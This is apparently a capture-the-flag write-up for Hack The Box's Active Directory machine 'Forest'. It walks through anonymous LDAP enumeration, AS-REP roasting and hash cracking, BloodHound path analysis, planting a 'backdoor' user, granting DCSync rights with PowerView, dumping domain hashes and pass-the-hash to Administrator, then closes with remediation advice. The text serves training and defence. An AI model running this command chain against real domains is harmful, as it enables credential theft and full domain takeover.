



# Forest — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | AS-REP Roasting, BloodHound, ACL abuse (WriteDACL), DCSync |

---

## TL;DR

Forest is an Active Directory domain controller that allows anonymous LDAP
binds, which is enough to enumerate the domain without any credentials. That
enumeration turns up a service account with Kerberos pre-authentication
disabled, letting me AS-REP roast and crack its password offline. From there,
BloodHound reveals that the account inherits membership in **Account
Operators** through nested groups — a privileged group that can create new
users and manage non-protected accounts. I use that right to plant a new user
in the **Exchange Windows Permissions** group, which holds `WriteDACL` on the
domain object, and use that to grant the new user DCSync rights — a straight
line from an anonymous LDAP bind to Domain Admin.

---

## Recon & Enumeration

Started with the standard service scan to see what the box exposes:

```bash
nmap -sC -sV 10.129.95.210
```



Open ports: `88` (Kerberos), `135` (RPC), `389` (LDAP), `445` (SMB), `5985`
(WinRM). Kerberos + LDAP + SMB together is the signature of a domain
controller, so the plan shifts immediately from "find a web app" to "enumerate
the domain."

**LDAP first**, because if anonymous binds are allowed, it's the cheapest way
to pull domain data without burning a single guessed credential:

```bash
ldapsearch -x -H ldap://10.129.95.210 -s base
```

The query succeeded unauthenticated — anonymous bind is enabled. That's the
first real finding: the domain will hand out information before I have any
account at all.

**RPC and Kerberos enumeration to build a user list:**

```bash
rpcclient -U "" 10.129.95.210 -N
enumdomusers

kerbrute userenum --dc 10.129.95.210 -d htb.local users.txt
```

Both come back with valid usernames, including a service account:
`svc-alfresco`.

 Service accounts are exactly the kind of principal worth
checking for **Kerberos pre-authentication disabled** — it's a very common
misconfiguration and, unlike password spraying, checking for it doesn't risk
a lockout.

---

## Foothold / Initial Access

With a list of valid usernames but no password policy information, brute-forcing
felt too risky this early — an account lockout on a domain controller can stall
an entire engagement. **AS-REP Roasting** doesn't require any guessing and
doesn't touch the lockout counter, so it was the obvious next move:

```bash
impacket-GetNPUsers htb.local/svc-alfresco -no-pass -dc-ip 10.129.95.210
```

`svc-alfresco` has pre-authentication disabled, so this returns a crackable
hash directly. Cracked offline:

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

The password fell quickly to the wordlist. With port 5985 (WinRM) open, that
credential turns into a shell immediately:

```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p <CRACKED_PASSWORD>
```

Foothold as `svc-alfresco`, user flag retrieved.

---

## Privilege Escalation

A single domain user is rarely the end goal on an AD box — the real question
is what that account can *reach*. BloodHound is how I answer that instead of
guessing:

```powershell
upload SharpHound.exe
.\SharpHound.exe -All
download <collection>.zip
```

Imported into BloodHound and searched for `svc-alfresco`. The node view shows
it's a member of **six groups through nested membership** — nested group
membership is exactly the kind of privilege that's invisible from `net user`
output and only shows up once you graph it.

One of those nested groups is **Account Operators** — a built-in AD group
whose members can create and modify users and add them to non-protected
groups. That's a foothold into user management, but not yet a path to Domain
Admin, so I ran BloodHound's *Shortest Path to High Value Targets* query to
see where it leads.



The path shows the **Exchange Windows Permissions** group holding
**`WriteDACL`** on the domain object itself. `WriteDACL` means a member of
that group can modify the domain's access control list — including granting
**DCSync** rights to any principal they choose. Account Operators can add
users to Exchange Windows Permissions, and Exchange Windows Permissions can
grant DCSync. Two privileges that look unrelated on their own chain into full
domain replication rights.

**Executing the chain:** created a new user (using the Account Operators
right) and added it to Exchange Windows Permissions and Remote Management
Users:

```powershell
*Evil-WinRM* PS> net user backdoor <PASSWORD> /add /domain
*Evil-WinRM* PS> net group "Exchange Windows Permissions" backdoor /add
*Evil-WinRM* PS> net localgroup "Remote Management Users" backdoor /add
```

Then used PowerView, authenticated as the new user, to grant it DCSync rights
via the `WriteDACL` privilege:

```powershell
*Evil-WinRM* PS> Import-Module .\PowerView.ps1
*Evil-WinRM* PS> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
*Evil-WinRM* PS> $Cred = New-Object System.Management.Automation.PSCredential('htb\backdoor', $SecPassword)
*Evil-WinRM* PS> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity backdoor -Rights DCSync
```

With DCSync rights granted, a standard DCSync attack dumps every credential in
the domain, including the Administrator's NTLM hash:

```bash
impacket-secretsdump htb.local/backdoor@10.129.95.210
```

That hash is enough for a pass-the-hash shell as Administrator:

```bash
impacket-psexec administrator@10.129.95.210 -hashes aad3b435b51404eeaad3b435b51404ee:<NT_HASH>
```

Domain Admin, root flag retrieved from `C:\Users\Administrator\Desktop\root.txt`.

---

## Lessons Learned

- **Anonymous LDAP bind is a bigger deal than it looks** — it turned "no
  credentials" into a full username list before I'd exploited anything.
- **AS-REP Roasting should be tried before any password spray** — it costs
  nothing, doesn't risk a lockout, and is often faster than guessing.
- **Nested group membership hides real privilege.** `net user` alone would
  never have shown the path to Account Operators — BloodHound's graph is what
  made the chain visible.
- **Small privileges chain into big ones.** Account Operators (manage users)
  and WriteDACL (modify ACLs) are individually limited, but together they
  produce DCSync — full domain compromise. This is the general shape of most
  real-world AD compromises, not just this box.

---

## Remediation

- Disable anonymous LDAP binds unless there's a specific, documented reason
  to allow them.
- Enable Kerberos pre-authentication on every account — audit for
  `DONT_REQ_PREAUTH` regularly, not just at account creation.
- Treat **Account Operators** and any group with `WriteDACL`/`WriteOwner` on
  the domain object as Tier-0 (Domain Admin–equivalent) privilege, and audit
  membership accordingly.
- Run BloodHound (or an equivalent ACL-graphing tool) against your own
  domain periodically — the attack path used here is invisible to standard
  group-membership audits and only shows up once you map the graph.

---

**Machine:** [Hack The Box — Forest](https://www.hackthebox.com/machines/forest)
